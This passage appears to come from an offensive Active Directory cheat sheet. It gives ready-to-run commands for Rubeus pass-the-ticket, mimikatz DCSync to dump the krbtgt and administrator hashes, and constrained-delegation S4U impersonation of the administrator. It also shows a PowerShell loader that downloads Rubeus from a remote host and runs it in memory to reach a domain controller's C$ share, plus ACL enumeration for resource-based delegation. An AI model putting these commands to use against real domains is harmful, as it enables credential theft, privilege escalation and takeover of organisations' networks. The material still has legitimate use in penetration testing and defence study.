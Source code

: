 Use ticket with Rubeus
```
Rubeus.exe ptt /ticket:<base64>
```

Force dcsync using mimikatz to get user hashes using injected ticket
```
lsadump::dcsync /domain:x.domain.com /user:x\krbtgt
lsadump::dcsync /domain:x.domain.com /user:x\administrator
```

## Constrained delegation

Get constrained delegation computers
```powershell
Get-DomainComputer -TrustedToAuth

-Domain d.com (optional to enum other domains in forest)
```

Generate a TGT for a user
```
.\Rubeus.exe asktgt /user:iissvc /domain:x.com /rc4:<hash>
```

S4U Constrained Delegation generate ticket for any domain user
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/dc01.domain.com:1433 /ptt
```

S4U Constrained Delegation generate ticket for any domain user for a alternative service on the same host
```
.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/dc01.domain.com:1433 /altservice:CIFS /ptt
```

PowerShell Remotely load rubeus
```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
[Rubeus.Program]::Main("s4u /user:host$ /rc4:x /impersonateuser:administrator /msdsspn:cifs/host$ /ptt".Split())
ls \\host\c$
```

## Resource-Based Constrained Delegation

Get GenericWrite computers
```powershell
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
